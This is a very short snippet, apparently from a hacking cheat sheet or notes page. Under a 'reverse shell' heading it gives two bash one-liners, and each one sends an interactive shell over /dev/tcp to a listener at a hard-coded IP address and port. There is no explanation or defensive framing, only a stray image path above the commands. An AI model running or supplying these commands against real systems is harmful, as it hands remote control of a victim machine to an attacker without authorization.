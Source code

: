 ### reverse shell

```
/bin/bash -l > /dev/tcp/192.168.49.202/18000 0<&1 2>&1
```
```
/usr/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/9999 0>&1'
```
